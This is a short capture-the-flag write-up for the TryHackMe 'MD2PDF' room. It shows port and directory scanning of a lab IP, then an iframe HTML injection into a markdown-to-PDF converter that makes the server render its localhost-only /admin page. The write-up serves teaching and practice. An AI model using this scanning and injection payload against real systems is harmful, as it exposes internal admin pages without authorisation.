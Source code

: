 # MD2PDF-TryHackMe-Writeup

🏴 TryHackMe Writeup: MD2PDF



🧭 1. Reconnaissance

✅ RustScan

rustscan -a 10.10.61.16

Discovered Ports:
	•	22: SSH
	•	80: HTTP
	•	5000: Flask web service

✅ Dirsearch

dirsearch -u http://10.10.61.16 -r

Discovered Path:
	•	/admin → 403 Forbidden

💡 Inference: The /admin panel exists but is likely restricted to localhost. We aim to reach it via the victim’s browser.

⸻

🎯 2. Exploitation via HTML Injection

We tested for input-based HTML injection and confirmed that <iframe> tags are rendered unfiltered. This is a green light for HTML injection.

✅ Payload Injected:

<iframe src="http://localhost:5000/admin" width="100%" height="500"></iframe>


![Flag Extraction in Action](./flag.png)
